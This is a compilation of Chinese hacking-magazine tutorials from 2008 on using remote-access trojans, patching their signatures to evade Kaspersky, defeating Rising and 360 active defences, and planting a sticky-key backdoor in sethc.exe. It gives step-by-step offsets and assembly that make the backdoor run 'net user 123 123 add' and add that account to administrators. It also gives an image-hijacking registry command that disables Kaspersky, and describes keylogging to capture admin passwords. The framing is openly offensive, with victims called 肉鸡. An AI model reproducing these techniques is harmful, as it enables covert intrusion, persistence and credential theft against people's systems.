点击窗口中的“文件管理”，通过该功能可以进行远程文件管理操作。首先点击窗口中的“获取硬盘”，可以在状态栏中看到执行的结果。在“分区”下拉列表中选择需要查看的分区，接着就可以在磁盘目录中看到其中的文件信息。通过鼠标右键中的命令，可以执行上传、下载、运行、删除等操作（图 4）。无论用户是上传还是下载文件，都可以在旁边的“传输管理”查看到这个文件的传输过程，包括传输进度、文件大小、已发送的数据等。由于灰熊猫采用了断点续传功能，因此通过鼠标右键可以暂停传输，在适当的时候进行数据续传（图 5）。


# 2008 合订本 上卷

# 牧马记

点击“超级终端”，就可以进行大量的终端命令操作了。为了让用户操作起来更加方便，可以点击“设置字体”和“背景颜色”按钮，设置自己喜欢的背景和字体。点击“打开终端”按钮，就能成功调用远程系统的命令提示符，这样用户在“shell命令”中输入终端命令后，就可以看到在窗口中显示出该命令的反馈结果（图7）。

最后点击“摄像头”，点击“获取摄像头”按钮就可以检测远程系统是否安装有摄像头，如果有的话就可以在列表中进行设备的选择，然后选中“自动捕获”，就可以捕捉远程的图像信息了（图8）。


为了让用户更好的进行远程控制，灰熊猫为用户提供了注册表、进程、窗口、服务等管理命令。通过注册表标签可以对远程注册表进行管理控制，就好像在自己的系统中管理操作一样，比如增加新的注册表项目、删除或修改已有的注册表信息。而在进程和窗口标签中，可以对远程系统的进程和窗口消息，进行所需要的控制操作。比如结束指定的进程信息，关闭指定的窗口，或者是其最大化、最小化等操作。另外通过服务标签可以获得远程系统中的服务信息，从图中可以看到远程系统安装了卡巴斯基的杀毒软件。通过窗口下面的按钮可以完成，刷新、启动、停止、新建服务等操作（图6）。


### 三、总结

总的来说，灰熊猫正如它自己介绍的那样，集合了大量优秀远程软件的特点，但是灰熊猫最大的特色还是可以突破主动防御和360安全卫士的监控。因此以后对付木马程序，光依靠杀毒软件是远远不够的。如果你觉得灰熊猫还非常不错，那就去下载一个试用一下吧。（本文所涉及到的灰熊猫已收录到光盘中）

## 激战免杀Peshare

sxnxnxn

目前的免杀是越来越难做了，各路杀毒软件都将我们小菜的最爱盯得紧紧的，特别是曾经称霸一时的灰鸽子，也随着去年病毒的一声炮响，成为各大杀毒公司的眼中钉。一个时代的逝去必然引领另一个时代的到来，于是我们找到了Peshare这款优秀的国产远控软件，它采用HTTP反向通信、屏幕数据线传输、驱动隐藏端口通信过程等技术，已经成了一款足以与灰鸽子并驾齐驱的远控软件。今天，我们就来看看这款小黑必备的木马是怎样隐形于杀毒软件面前的。

今天我们主要用到以下的一些工具：卡巴7.0、Pcshare免费版（本人使用的是最新免费版本20071125）、Myccl特征码定位器、OllyDBG、OC、LordPE、C32Asm以及ASCII卡巴主动防御终结者。

在PcShare软件的update文件夹里有三个文件，为服务端原始文件压缩包，我们生成服务端就是靠这三个文件：PcMain.dll，插入进程的主文件，实现穿墙；Pchide.sys，通信文件，实现隐藏通信；Pclnit.exe，将上面的两个文件装入自身，生成客户端文件，也就是肉鸡要执行的文件。我们的思路就是将这三个文件分别进行免杀，从而达到服务端的免杀。

### 一、DLL文件免杀

定位特征码我使用Myccl，平时在使用过程中对于大一点的木马先分成10块，然后慢慢增加，而小一点的木马，比如pcshare，则可以填写的大一点，比如100。还有一点需要注意，杀毒软件定位的特征码是小于64字节的，所以最后定位出的特征码的单位长度一般是2。定位繁琐的过程就不再赘述了，直接给出结果，如图1，图2。


图1

# 牧马记

```
文件名:C:\Documents and Settings\[用户名]\桌面\PcMain.dll
特征码 物理地址/物理长度 如下:
[特征] 0000FD31_00000002
[特征] 0000FFBC_00000002
```


这两处使用Mycc1定位出的特征码位置均为文件物理地址，因为我们要使用ollydbg进行特征码的修改，所以还要知道它们对应的内存地址。内存的地址可以使用OC来进行计算，特征码的物理位置转化成内存地址分别为10010931和10010BBC，如图3。


看到这儿，可能有的读者就要说了：这个方法我试过，OC转化的地址是错误的，我在ollydbg中根本找不到OC转化的内存地址！其实这并不是OC计算出错了，而是你自己的观念没有转换过来。要解决这个问题我们必须要先理解什么是DLL文件，以及DLL文件的特性。

#### 小知识：什么是DLL文件？

DLL的学名叫做动态链接库文件（Dynamic Link Library），它是一种允许程序共享执行特殊任务所必需的代码和其它资源。DLL其实也是一种可执行文件，不过它跟我们平时看到的EXE文件的运行方式不一样，EXE文件是可以独立运行的，而我们的DLL文件不能独立运行，它必须要插入到某一个EXE文件中才能运行。打个比方，EXE和DLL都是军用武器，EXE是军用卡车，DLL文件是大炮，现在开始打仗了，部队要往前方调集军用装备，军用卡车可以跑，自己就可以来到前线，而大炮没有动力驱动，只能靠我们的军用卡车拉着往前线跑。呵呵，这个比喻很明了，道理很简单：DLL文件的执行，需要EXE文件加载。

了解了DLL文件的特性后，我们再来了解一下OC计算内存地址的原理。OC在计算内存位置的时候是根据文件的镜像基址来进行计算的。假如在载入内存后文件的镜像基址发生了变化，那么OC计算出的内存地址也会随基址发生相应的改变，这样说太枯燥了，咱们还是来打个比方，假设DLL文件的原镜像基址为100，OC计算出特征码的内存地址为110，那么就说明特征码的位置是在基址向下第10个。我们使用ollydbg载入后，DLL文件的基址发生了变化，假设变成了200，那么用OC计算出的特征码的内存地址也会相应的改变，但是无论它怎么改变，它相对于基址的位置是不会改变的，还是在基址向下的第10个，所以这时我们就可以知道，现在特征码的内存位置是在200向下的第10个位置，即210。所以说并不是OC计算错误而是文件镜像基址发生了改变。

现在让我们来实际操作一下，打开LordPE，点击PE编辑器，选择PcMain.dll，这时可以看到，PcMain.dll的原镜像基址为10000000，如图4。


现在我们来看看PcMain.dll的镜像基址有没有改变，使用ollydbg载入PcMain.dll，它无法单独加载到内存中，所以ollydbg会使用一个EXE文件来加载它，这个EXE文件叫做loaddll.exe，是ollydbg自带的。当我们使用ollydbg来加载DLL文件时会有提示，如图5。我们点击“是”，DLL文件就被加载了。按下Alt+M，来到Memory map。这时我们发现PcMain.dll的基址变成了008B0000，如图6。


为什么会变成008B0000呢？大家请仔细看看上图，原来10000000这个位置已经被msrcr3给占用了，所以我们的PcMain就被挤到上面去了，成了008B0000。好了，既然我们知道了文件现在的基址，就可以得出现在的特征码的位置了。OC基于原基址10000000计算出的第一个特征码内存地址为10010931，也就是说特征码在10000000下面的第10931行。现在的基址改变了，变成了008B0000，但特征码相对于基址的位置是不变的，也就是说现在特征码的位置还是在008B0000下面的第10931行。很简单的数学题，008B0000+10931=008C0931，所以现在特征码的位置是008C0931。同样的方法，我们计算出了另一处特征码现在的位置是008C0BBC。

找到特征码的位置后接下来就是修改特征码了，使用跳转法也可以，等效命令替换法也可以，这就要看大家的习惯了。因为等效命令替换法需要汇编基础，所以我们这里使用跳转法。
首先来到第一处特征码的位置008C0931，发现这一句为 mov eax, dword ptr [ebp-15C]。
找到零区域008C198C，双击该处，填入特征码语句mov eax, dword ptr [ebp-15C]，然后进行抹掉原特征码，加跳转，回到008C0931，将此处的mov eax, dword ptr [ebp-15C]使用nop填充。这时就会出现两行nop（因为原语句占两行，nop占一行，用占一行的nop填入占两行的语句当然会出现两个nop），双击第一行nop，把它改为jmp 008C198C，这样我们就跳到了新的位置。来到新位置008C198C处，在这一句的下面再加一个跳转跳回原位置：双击填入jmp 008C0931，这样第一处的特征


## 2008 合订本上卷

码就修改完毕了。同样的方法，我们要继续修改第二处特征码，位置在008C0BBC处，特征码为push 8C5B06，修改的方法还是和上面的一样。

当两处特征码都修改完毕后就要将我们修改的部分保存起来，方法是单击右键，选择“复制到可执行文件”，再选择“所有修改”，在弹出的对话框里选择“全部复制”，最后保存文件并替换原文件，使用卡巴斯基扫描一下吧，免杀成功。

### 二、SYS 文件免杀

修改完DLL文件，我们再来看看SYS文件的修改。SYS文件的修改方法有很多，可以修改PE头，也可以修改特征码等。在这里着重说明一个问题，有的朋友说SYS文件不能载入ollydbg，所以不能免杀！呵呵，ollydbg确实不能用，但是我们可以使用其它的工具啊。我就是使用C32Asm这款工具对SYS文件的特征码进行修改的，效果不比ollydbg差。

具体修改方法与上面讲到的一样的，先找到特征码，然后使用跳转法搞定。唯一不同的就是当我们使用C32Asm时，要注意选择十六进制模式，这样就可以和ollydbg一样使用了，如图7。我定位出的特征码位置在00000968处，右键选择“跳到”，填入00000968来到特征码处，如图8。


是不是看到一堆犹如天书般的16进制数字呢？不要慌，我们把光标点击在00000968处，然后点鼠标右键，选择“对应汇编模式编辑”，这样就来到了另一个界面，如图9。


很熟悉吧，这个和ollydbg的界面是差不多的，当然操作方法也类似。我们可以看到，特征码为CALL [10320]。这时候使用跳转法来乾坤大挪移，方法同DLL文件的修改一样，不再赘述。有一点需要注意，在ollydbg中编辑某一行的话双击该行就可以了，而在C32Asm 中要想编辑某一行要单击右键，选择“汇编”才可以，如图10。


### 三、EXE 文件免杀

在进行EXE文件免杀的时候我遇到了一件怪事：文件已经免杀好了，当时取名为11.exe，测试了一下效果，也躲过卡巴的查杀了，于是我重新把名字改回PcInit.exe并放回update文件夹，但是当再次对这个已经免杀好的PcInit.exe扫描时卡巴却报警了。这个问题至今我也没搞明白是怎么回事（我绝对不相信卡巴斯基会使用检查文件名的方式来查杀的），所以我换了一种方法，先不免杀这个EXE文件，直接生成服务端，然后对生成的服务端进行免杀，结果证明我这种方法是可行的。如果大家也遇到了同样的问题，可以考虑采取我这种方法。

使用 MyCCL 定位出的特征码如下：

```
[特征] 00000993_00000002
[特征] 000014E3_00000002
```

接着使用OC计算出内存地址：第一处为00401593、第二处为004020E3。使用Ollydbg载入，第一处特征码为call dword ptr [403078]、第二处的特征码是mov byte ptr [ebp-29E], 8。同样使用跳转法修改特征码，保存后使用卡巴查，已经不提示了。

### 四、突破主动防御

卡巴的主动防御实在强悍，虽然我们的免杀木马已经制作好了，可是主动防御依然不能突破。突破不了只能考虑歪门邪道，我看到网上流传一种脚本修改系统时间的方法，但是用到的脚本太多，编写也不是很方便。这里我们使用“ASCII卡巴主动防御终结者”这款软件，这个软件是用VB编写的，方法也是采用修改系统时间使卡巴暂时失效，但是它只使用一个文件，而且也免去了编写脚本的不便。

这款软件包含三个文件，如图11。先双击“注册.bat”，注册其中的OCX文件才能使用，如图12。然后打开“ASCII卡巴主动防御终结者.exe”，点击“选择木马”，选择后点击“生成终结者”，提示成功，如图13。


# 牧马记


这时会在“ASCII卡巴主动防御终结者”文件夹下生成一个“可以过主动的文件.exe”，这就是我们经过处理的木马了。这种只生成一个文件的方式要比使用脚本修改系统时间的方法简洁的多了。工具就是工具，它是一成不变的，重要的是自己灵活的思路，假如有一天这个软件不能用了，你是不是会再次插手不及呢？最后附送小弟写的打油诗一首，万莫见笑。

黑路要想走得好，免杀技术很重要。
杀戮真是惹人恼，日子越来越难熬。
关键看你的头脑，思维灵活很重要。
成功道路千万条，莫要钻进死牛角。
祝愿杂志办得好，芝麻开花节节高！
（本文所涉及到的Pcshare和相关免杀工具已收录到光盘中）

2008 合订本上卷

牧马记

2008 合订本上卷


## 粘滞键 + 逆向工程
再次打造隐藏后门

txcbg

自从粘滞键后门出来后，很多人对这个后门的利用进行了改进，有的人通过编程模仿原来正常的粘滞键程序界面来使后门更加隐蔽（比如 X 档案 08 年第 3 期“清原长风”写的“对粘滞键后门的一些想法”一文中的方法），可小菜我不会编程，那能不能也用我的方法打造隐藏后门呢？当然可以的，要不然就没有本文了。

一天晚上正看着第 3 期我爱大饼朋友所写的“小小逆向工程整美眉”，文章中的一句话引起了我的注意：“添加帐号，开启端口，删除文件什么的都可以”，既然可以添加帐号，那可不可以通过逆向工程在粘滞键的程序的 setchc.exe 里写入添加管理员帐户的代码，运行 setchc.exe 的时候自动添加一个管理员用户呢？

第二天上午我用了不到 3 个小时就成功的把想法变成了现实。使用到的工具是 PEiD，OD 和 LordPE。

我先从虚拟机的 Windows2003 中把 setchc.exe 复制一份到准备对它进行处理的 WindowsXP 系统中，使用 LordPE 看了一下程序的基址，是 01000000，记录下来，一会儿要用到，如图 1。使用 PEiD 查一下壳，提示“什么都没找到”，再深度扫描一下，发现是 C++ 编写的（图 2），没加壳，这下我可以放心修改了。


先来找 0 区域，单击 PEiD 中“EP 区段”的“打开‘节查看器’”，然后点击鼠标右键，“搜索全 0 处”，就找出来了如图 3 所示的全 0 信息窗口。text 区段中的全 0 区域太小，我选择了 data 区段中的全 0 区域。

data 区段的 RAV 是 00008289，加上基址 01000000（上面使用 LordPE 在看后记录下来的），就得到了全 0 区域开始处的内存偏移地址 01008289。使用 OD 打开 setchc.exe，程序自动停在了入口点 010036F6 处（记录下来，一会儿要用）。按 Ctrl+G，输入 01008289，来到全 0 处，向下 3 行，来到 01008291，由于在这里我要写入的代码“net user 123 123 add”共有 21 个字节，所以我从 01008291 开始向下选中 11 行（每行 2 个字节），然后点右键—二进制—编辑，在弹出的编辑代码窗口中的“ASCII”行依次输入 net user 123 123 add，如图 4。

从 010082A5（刚才写入代码的最后的一行的地址）向下走 3 行，来到 010082AC 处（修改后程序的新入口点），依次写入如下汇编代码：


## 2008 合订本上卷

# 牧马记

```
push 0
push 01008291
call WinExec
jmp 010082EC
```

其中 01008291 就是刚才写入代码处的首地址，010082EC 我们在下面会提到。然后再向下 3 行，来到 010082C0 处，从 010082C0 开始向下选中 19 行（38 个字节），再次右键——二进制——编辑，输入 net localgroup administrators 123 add，如图 5。

向下 3 行来到 010082EC（上面“jmp”跳到处）处，依次输入如下汇编代码：

```
push 0
push 010082C0
call WinExec
jmp 010036F6
```

其中 010082C0 是第二处代码开始处，010036F6 是原程序入口点，如图 6。从 01008291 开始选中所有修改的代码，右键——复制到可执行文件，确认所以修改保存文件，如图 7。

使用 LordPE 打开新修改的文件，把程序的入口点由 000036F6 改成 000082AC，保存，确定，退出 LordPE。这样 stchc.exe 就修改好了，虽然在程序里写入了新代码，但由于是在程序内部的全 0 处写的，所以程序的大小一点也没有发生变化，版本信息也没变，如图 9。

上面的代码为什么那么写，我给出一个简单的示意图，如图 13。


图 6


图 7


图 8

图 10。在执行原程序之前，先执行命令“net user 123 123 add”，然后跳到代码“net localgroup administrators 123 add”处执行，最后再跳回原程序入口点，执行原来的程序。


图 9

看看修改后的程序能不能完成预期的功能，把修改后的 stchc.exe 拖到虚拟机里分别替换 system32\dllcache\setchc.exe 和 system32\setchc.exe（顺序千万别错哦，要不然可能替换不成功），来看一下当前 Win2003 中的用户，是没有 123 这个用户的，如图 11。在 XP 中通过远程桌面连接 Win2003，在全屏的终端窗口中连续按 5 下 Shift 键，出来粘滞键对话框后点确定，然后直接使用用户名 123，密码 123 进行登录，如图 12。

再来看看用户，多了一个名为 123 的用户，后门打造成功，如图 13。


图 10


图 11


图 12


图 13

在制作这个后门的时候我遇到了一些问题，比如一开始打算直接在程序里用二进制写入“net user 123 123 add & net localgroup administrators 123 add”，但发现只执行了前半部分，即只添加了一个用户名和密码都是 123 的用户，却没有加入到管理员组，我只好把它分开执行。为了增加后门的隐蔽性，最好修改完文件后修改一下文件的时间。另外，这个后门也存在一些问题，不管谁调用 setchc.exe 都会添加用户，有可能被发现（管理员发现多了用

# 牧马记

户），部分解决的办法是你使用123这个用户登录后，再建立其它用户，然后删除它。
我测试的环境是Microsoft(R) Windows(R) Server 2003 Enterprise Edition5.2.3790 Service Pack 2 Build 3790，测试这个后门的时候要注意版本对应，比如英文版Win2003最好也用英文版Win2003中的selh.exe做后门，倘若出现某台韩国服务器的管理员调出来的却是中文版的粘滞键程序，那可就不好了 =_=。另外，我在测试这个后门的时候还遇到了一件比较郁闷的事，

有时候尽管先替换了dllcache下的sethc.exe，但还是被还原回来，请高人指点。
通过粘滞键+逆向工程打造的这个后门，只是在原程序的外部稍微做了点修改，修改后的程序的大小和版本信息一点也没变，由于没有第三方软件，不用担心会被杀毒软件查杀，管理员也不容易发现，个人认为还算是个不错的后门。
（本文所涉及到的PEiD、OD、LordPE和修改后的sethc.exe已收录到光盘中）


## 木马帝国的远程控制软件

最近，国内许多的安全网站都推出了自己的远程控制软件，木马帝国作为国内较早的安全网站之一，也随着这波潮流推出了自己的远程木马。今天我们就来测试一下这款木马，看看他们推出的远程软件，是真的名至实归还是浪得虚名。

### 一、配置服务端程序

首先运行木马帝国的远程控制程序，由于文件包里没有IP地址的数据库文件，因此我们首先需要从网上下载纯真IP地址数据库到目录中，然后再运行远程的客户端程序，不然的话客户端是无法运行成功的。成功运行客户端程序后，可以看到该远控的界面，和常见的即时通信软件差不多（图1）。点击左侧工具栏中的“生成控制”按钮，只需要设置上线地址、上线端口、上线标识和安装文件名等选项就行了（图2）。点击“创建服务端”，客户端会弹出一个提示窗口，从中可以看到服务端程序插入到系统的svchost.exe进程中。


截文件的话，只需要在窗口中选择需要传输的文件内容，然后直接拖动到目标区域就可以完成操作了。所有的文件传输都采用了断点传输这种方式，在传输的进度表中可以看到传输的进程。另外通过右键菜单和工具栏中的按钮，可以进行新建文件夹、删除文件、重命名文件等操作。如果用户不喜欢双击打开文件管理功能，可以点击“设置系统”按钮来重新进行设置。


在服务端链接上点击鼠标右键，选择其中的“捕获屏幕”命令，在弹出的窗口中就可以看到远程桌面了（图4）。从远程桌面可以看出，木马帝国远控的屏幕捕捉效果并不是很好，但是捕捉的速度确实非常快。程序还不能对远程桌面进行鼠标键盘的控制，看来还需要进一步的优化开发才行。而通过“视频监控”功能，可以打开远程系统连接的摄像头等设备，从而进行远程内容信息的捕捉。

### 二、远程控制服务端

现在将服务端程序上传到虚拟机中并运行，结果很快服务端就成功连接到客户端。点击客户端左侧中的“远程管理”按钮，在“上线服务端”列表中可以看到远程服务端的内容。当用鼠标指向这个内容后，可以看到更加详细的内容信息。
双击这个服务端链接，打开了远控的“文件管理”功能（图3），从中可以看到，木马帝国远控的文件管理功能模仿了Radmin。管理窗口分为上下两个部分，上半部分为本地磁盘目录，下半部分为远程磁盘目录。如果用户需要上传或下


细的了解到远程系统的基本信息。“系统密码”命令可以获取远程系统的登录帐号密码信息，虽然程序声称只支持Windows2000系统，但是经测试发现WindowsXP系统也可以成功获取系统密码。而“系统信息”则可以了解到系统版本、浏览器版本、显示分辨率等远程系统更多的信息内容。
为了更好的进行远程控制管理，木马帝国远控的右键包括了进程管理、服务管理和窗口管理三项命令。利用进程管理命令，可以查看到包括隐藏进程在内的远程系统中的所有进程信息。其中也包括服务端程序线程插入的那个svchost.exe进程。通过工具栏中的命令还可以进行查看、刷新、关闭。如果发现有安全软件的进程，就可以关闭其对应的进程，来达到保护服务端的目的（图5）。


服务管理命令可以对远程系统中的服务信息进行管理，其中包括对于系统信息的查看以及对选中的服务进行启动、停止、删除等操作。另外程序还可以进行新的服务的安装，点击“安装”按钮后在弹出的窗口进行设置、包括服务名、服务显示名、服务程序路径信息等（图6）。


通过窗口管理可以对远程系统的窗口进行管理，实现对远程窗口的最大化、最小化、正常关闭、暴力关闭等操作。点击右键中的“字符终端”命令，在弹出的窗口中模拟了一个Telnet的功能环境，在提示符后输入所需的终端命令，就会显示出该命令的执行结果（图7），如果用户想要清除屏幕中的信息，可以选择菜单中的“清除”命令。


除此之外，如果用户处于内网环境的话，可以点击客户端中的“端口映射”，首先点击页面中的“查找设备”按钮，程序就会自动搜索网络中的UPNP设备，当搜索到这些设备后，进行内网和公网地址端口的设置，点击“添加”按钮就可以完成端口映射操作了（图8）。

通过“其他软件推荐”栏可以下载其它的软件信息，其中包括一个即时通信软件和密码取回软件。比如点击“互联星空密码取回”链接，下载的程序可以找回本地保存的互联星空拨号器登录密码。运行程序后再登录互联星空拨号器，程序就会把ADSL密码记录在C盘的adslpass.txt里面。

### 三、小结

到此为止，木马帝国远控的测试就结束了。通过测试我们可以看到，木马帝国远控已经具备了常见的管理控制命令，并且在很多方面都和国产的黑洞非常类似。我认为作者只需要对这些功能进一步的加强，再加上突破主动防御的相关功能，那么以后的木马帝国远控还是非常不错的，有兴趣的朋友也可以下载一个来感受感受。
（本文所涉及到的木马帝国远控已收录到光盘中）

现在的操作系统，为了安全性，都引入了权限这个概念，那么，到底权限是什么呢？我们举个简单的例子来说明吧。比如系统管理员设置甲用户只允许访问A目录，设置乙用户只允许访问B目录，那么，甲用户是不能访问B目录，而乙用户也是不能访问A目录的，他们更不允许来更改这个设置，这就是权限。那么，倘若甲用户或乙用户利用系统中的安全漏洞或是别的方法使得自己突破了原来的限制，能够非法访问对方目录甚至是使得自己能够向管理员那样来获取对整个系统的控制，这就是提权。


# 牧马记

2008 合订本上卷

## 远程控制的新选择 —— DG 远控 2008

txcbg

某一日，我使用 IIS 写权限拿到了一个网站的 webshell，发现是系统权限，由于开启终端服务没有成功，于是就打算上传一个木马来运行远程控制。可上传了几个常用的木马都被查杀了（对方服务器上安装的杀毒软件是 BitDefender + F-Secure Anti-Virus，我手头没有能躲过它们查杀的免杀木马），最后只好去网上寻找新木马，就这样找到了 DG 远控 2008，使用了一下感觉相当不错，特推荐给大家。

和你的控制端的监听端口一致，否则就会上不了线），如图 3。

再来配置木马的启动方式，DG 远控 2008 主要是通过服务来达到开机自启动的目的，一共有两个选择，一个是替换系统原有的服务，一个是新建服务。我选择的是默认的替换 BITS 服务，如图 4。

服务端配置已经完成了，点击右下方的“生成”按钮来生成一个服务端，生成的服务端程序大小为 78.4KB，没有加壳（使用 PEiD 的“核心扫描”进行检测，会显示为 Borland Delphi DLL [Overlay]），我们可以根据自己的需要进行加壳或免杀处理。

### 一、配置服务端

运行最新版的 DG 远控 2008，其主界面非常简洁，软件在默认状态下的上线端口是没有设置的，我们需要手动输入一个上线监听的端口，然后按前边的“开始监听”按钮进行监听，如图 1。


### 二、服务端功能简单介绍

我们来简单的测试一下，在本机上运行生成的服务端程序，很快我们的电脑就上线了，在上线的电脑上点击鼠标右键，就弹出了功能菜单，如图 5。

点击“生成服务端”后就弹出了配置窗口，首先看“基本信息”，对于“DLL名称”、“上线备注”和“上线密码”都可以自己定义，“DLL 路径”是木马运行后释放到的地方，一共有两个选择，WINDOWS 目录和 SYSTEM32 目录，为了使生成的服务端不容易被查杀（现在的许多杀毒软件对 system32 目录都盯得很紧），建议选择 WINDOWS 目录，如图 2。


在“上线方式”中提供了 DNS 域名上线和 HTTP 上线两种方式，我使用的是 3322 的域名上线，至于上线的端口使用默认的 9000 端口就行（如果你自定义了端口，那么服务端的上线端口一定要


“远程屏幕”可以监控对方的桌面，还可以选择远程屏幕的颜色的多少，以使我们能够在传输速度和画质间作出最佳的选择，如图 6。

“视频监视”和“音频监听”我就不介绍了，相信经常使用木马的朋友都清楚。“超级终端”可以执行一些系统命令，在下方的输入栏中输入命令，然后回车就可以执行了，如图 7。


“远程按键”能够记录对方的键盘输入，可以尝试使用此功能记录管理员的密码等。接下来，我们看看功能最强大的“远程管理”，之所以说它功能强大，是因为它包含了服务端信息查看、服务管理、进程管理、窗口管理、注册表管理、文件管理、传输状态管理等七大功能。先来介绍“服务端信息”，奇怪，怎么什么也没有啊？别着急，点击鼠标右键，选择刷新，服务端的信息就出来了（“服务管理”和“进程管理”也需要刷新后才能看到对应的服务和进程）。通过该功能我们可以看到服务端电脑的基本配置、开机多长时间等信息，如图8。

“服务管理”可以查看、启动、停止服务，也可以新建、删除服务。“进程管理”可以查看、结束进程。“窗口管理”可以对远程计算机的窗口进行最大化、最小化、显示、隐藏、关闭等操作。“注册表管理”可以对远程注册表进行删除某个键值、新建某个键值，重命名等操作，如图9。

最后再来看一下“文件管理”，个人感觉 DG 远控 2008 的文件管理不是很好用，首先点击“获取硬盘”来获取对方的硬盘驱动器列表，然后就可以选择磁盘了，相应的文件和目录会显示在下方，我们可以实现文件的上传、下载、删除文件、远程运行程序等功能，如图 10。在使用


图 7


图 8


图 9


图 10

载文件时无法自定义下载到的目录，如果能够做成仿 radmin 的文件管理形式的话我会更喜欢的，纯个人观点，呵呵），相信这款软件会更好用。总的来说，DG 远控 2008 是一款不错的远程控制软件，尤其是当我们手头暂时没有免杀的木马时，它绝对是一个不错的选择和强有力的补充（即使日后被杀毒软件所查杀，由于软件还不如为人所知，相信免杀制作起来相对灰鸽子等知名的木马也要简单的多）。

（文章中涉及到的 DG 远控 2008 已经收录在光盘中）

## 鸽子如何过主动防御与360安全卫士

10℃警官

在国产的杀毒软件中，瑞星的使用量是最多的，不过它的主动防御功能和其它的杀毒软件比起来却显得有点水。瑞星主要是依靠主动防御特征码（非文件、内存特征码）来定位，所以我们在运行灰鸽子服务端的时候会直接显示为后门程序，这难免让人觉得有点可笑。

网上提到最多的就是定位瑞星的主动防御特征码，我参照着做了一下却没能成功，在 OD 里没有显示任何异常，不过直接运行的时候却被拦截了，我想应该是还有一些特征码没有被定位出来，对于这部分非要完整的程序运行才会显


图 1

示，我们使用 OD 是无法办到的。此外，还有一些另类的方法，比如结束杀毒软件


图 2

的进程，我们暂不讨论。

以灰鸽子为例，在配置服务端的时候仅勾选写入注册表和服务（图 1），然后

把杀毒软件的所有监控都关闭，直接运行生成的服务端。先别忙着卸载灰鸽子，打开注册表“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\”，找到“灰鸽子最终免杀版”（我刚才配置服务端的时候服务名称写的就是这个）展开，把 Enum 项删除，然后点鼠标右键将其导出到桌面（图 2）。

随便找一个结束进程的工具把灰鸽子服务端的进程结束掉，然后把服务端文件复制出来，这里注意要把文件夹选项中“隐藏受保护的操作系统文件(推荐)”前的勾去掉才可以看到（图 3）。接下来就可以卸载灰鸽子的服务端了。

以上这样做是为了得到灰鸽子服务的注册表键值，我也曾使用 SC（XP 系统自带的服务器修改工具）来添加灰鸽子为系统服务，不过启动没有成功（启动一会儿就自动关闭了）。导出的灰鸽子服务注册表中 Type 值是 110，而一般程序是 10，我想有可能是这个原因才使 SC 没能达到目的吧！我们可以写一个批处理把注册表导入，使用“regedit /s”就可以完成，如果你不喜欢赤裸裸的注册表文件也可以使用“Reg转 Bat”这个小工具来转换一下（图 4）。在这里我将转换后的文件命名为灰鸽子.bat，在后面添加“del 灰鸽子.bat”和“del Hide.vbs”（Hide.vbs 为隐藏 BAT 运行时的窗口），这样就可以实现自动删除了。然后使用 Winrar 直接打包成自解压文件就可以了。需要注意的是，解压路径要填写配置灰鸽子时的安装路径，比如我这里为“%WinDir%\system”，而“解压后运行”就填 Hide.vbs（图 5）。这样一个过瑞星主动防御的灰鸽子就诞生了，美中不足的是系统重启后灰鸽子才会上线，这是因为我们使用导入注册表的方式来注册服务，重启计算机后服务才会生效的。其实也可以使用添加启动项的方式来启动，不过在配置灰鸽子的时候就不能勾选任何启动方式，考虑到启动项容易被查出来，因此本文就不怎么介绍了。

总结一下，通过卡巴的主动防御拦截记录可以看出，自动删除安装文件和注册服务为危险操作，会被主动防御拦截，所以我们使用打包的自解压程序来自动释放到目的目录和导入服务的方式就可以比较完美的过主动防御了。

360 安全卫士现在使用的人非常多，因此灰鸽子也成了它重点查杀的对象之一，一打开 360 安全卫士就提示有 1 款恶评插件（图 6）。按常规做法应该去定位特征码，但考虑到它并不是什么专业的杀毒软件，于是就尝试着把灰鸽子文件名称改了下，原先路径是 C:\WINDOWS\system\svchost.exe，名称改成 svchost1.exe，再打开 360 安全卫士时竟然不显示了，使用它的查杀流行木马功能也没有查找到。原来它的定位原理仅仅是依据路径和文件名称，只要符合它定位的路径和名称就认为是木马。为了进一步验证我的判断，我新建了一个文本文档命名为 svchost.exe，打开 360 安全卫士时显示为灰鸽子变种 0017，真是让人失望，这样的安全卫士不装也罢，以前还用它来查杀一些木马，现在想想真是可笑。我们只要在配置服务端的时候名称注意一下就可以过 360 安全卫士了。

（文章中涉及到的 Reg 转 Bat、fint2005、hide.vbs、灰鸽子以及演示教程等，已经收录在光盘中）


## 小菜来教你使用黑鹰远控

天涯衰草

黑鹰远控是黑鹰开发的一款远程控制软件，最初是需要用户加入其会员后才可获得，不过最近，有人将黑鹰远控的破解版公布在了网络上，我下载试用了一下，感觉非常不错，在此特写出来与各位朋友共享。

### 一、配置木马

由于黑鹰远控需要在线认证才能够生成服务端，因此我们可以利用“黑鹰远控服务端生成器”来进行配置。运行黑鹰远控服务端生成器，在“上线设置”中配置服务端程序所使用的连接方式。黑鹰远控可以采用域名、IP 地址、网页文件等上线方式，这和别的木马或远程控制软件都是基本类似的。上线方式选择完后，填好上线密码、上线监听的端口、上线备注等信息，接着在“安装信息”中设置安装的文件名称以及启动服务的相关信息，如图 1。最后点击“生成服务端”，配置好的服务端程序就会生成了。从上面的配置情况我们可以看出，黑鹰远控目前还不具备突破主动防御的功能。

### 二、控制木马

我们直接在本地运行生成的服务端程序，打开客户端，选择其中的“本地端口”，如果在配置服务端的时候没有更改过连接端口的话，那么这儿的端口数就不用更改。当服务端程序连接成功后，双击列表中的服务端信息，就会自动跳转到“远程管理”界面，其中包括了文件、进程、窗口、注册表、视


2008 合订本上卷

# 牧马记

频等的控制功能。

我们现在来看看黑鹰远控的远程管理操作，黑鹰远控默认打开的就是文件管理窗口，文件管理窗口采用了类似资源管理器的方式，我们可以进行复制、删除、运行、上传、下载等基本操作。另外，黑鹰远控的文件传输不但支持断点续传，还可以对下载的文件进行打包操作，或者直接点击“下载所有文件”来快速有效的下载指定目录中的文件信息，如图2。


点击“文件”旁边的“Cmd”，然后选中最右下角的“启动”选项，木马就会调用远程系统的命令提示符，我们在下方的命令行栏输入想执行的命令，点击后边的“发送”就可以执行了，如图3。比如目前的映像劫持技术在病毒中非常流行，我们执行下边的命令reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\avp.exe" /v debugger /t reg_sz /d debugfile.exe /f，就可以完成对卡巴斯基杀毒软件的映像劫持，从而在一定程度上起到免杀的效果了。


